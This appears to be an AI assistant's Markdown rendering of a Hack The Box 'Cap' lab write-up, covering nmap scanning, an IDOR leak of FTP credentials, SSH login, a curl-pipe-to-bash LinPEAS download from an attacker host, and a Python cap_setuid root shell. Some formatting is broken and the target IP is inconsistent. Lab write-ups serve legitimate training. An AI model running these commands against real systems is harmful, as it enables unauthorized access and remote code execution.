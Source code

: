 
Here’s how you can add these images to the **Cap** write-up on your GitHub page. I'll integrate the images with captions in the appropriate places.

### Write-up: **Hack The Box - Cap**

#### **01-Enumeration.md**
```markdown
# Enumeration

## Nmap
Start with an nmap scan to check open ports and services:
```bash
nmap -sC -sV -Pn 10.129.219.24
```
**Results**:
- Open Ports: 21 (FTP), 22 (SSH), 80 (HTTP)

![Nmap Scan Results](https://github.com/user-attachments/assets/c6fb655e-c500-40e1-b10d-a3e90491c67e)
)

The HTTP service is running **Gunicorn**, a Python-based HTTP server. No anonymous FTP access is available.

## HTTP Service
Browsing the HTTP server shows a dashboard with network-related functionalities. Certain pages display the output of commands like `ifconfig` and `netstat`, indicating that system commands are being executed in the background.

![Web Dashboard](../images/2%20Webpage.jpg)
![Network Info on Web Dashboard](../images/3%20Web%20Dashboard.jpg)
```

#### **02-Foothold.md**
```markdown
# Foothold

## IDOR Exploit
While creating packet captures, the URL follows the pattern `/data/<id>`. Incrementing the `id` allows access to previous users’ packet captures, revealing a vulnerability known as **Insecure Direct Object Reference (IDOR)**.

Downloading the capture file at `/data/0` and opening it in WireShark reveals FTP traffic containing plaintext credentials:
- **Username**: `nathan`
- **Password**: `Buck3tH4TF0RM3!`

![Security Snapshot](../images/4%20Security%20Snap%20shot.jpg)
![Security Snapshot - User 0](../images/5%20Scurity%20Snap%20Shot%20user%200.jpg)

## SSH Access
Use the credentials to log in via SSH:
```bash
ssh nathan@10.10.10.245
```

![SSH into Nathan](../images/9%20ssh%20into%20nathan.jpg)

You now have a foothold on the system.
```

#### **03-Privilege Escalation.md**
```markdown
# Privilege Escalation

## LinPEAS Scan
Run LinPEAS to find privilege escalation vectors. Download LinPEAS using a Python web server on your attacker machine:
```bash
sudo python3 -m http.server 80
```
Then, download and execute it from the target machine:
```bash
curl http://<YOUR_IP>/linpeas.sh | bash
```

The scan reveals that `/usr/bin/python3.8` has the following capabilities:
- **cap_setuid**
- **cap_net_bind_service**

### Exploit Python Capabilities
The **cap_setuid** capability allows the Python interpreter to switch to UID 0 (root) without the SUID bit set.

To exploit this, run the following Python commands to spawn a root shell:
```python
import os
os.setuid(0)
os.system("/bin/bash")
```

## User Flag
After escalating privileges, retrieve the `user.txt` flag:
```bash
cat user.txt
```

![User Flag](../images/10%20user%20flag.jpg)
```

---

This Markdown content is designed for your GitHub write-up. Make sure the images are placed in a folder named `images` inside the Cap folder in your GitHub repository, and update the image paths accordingly.

Let me know if you need more adjustments!
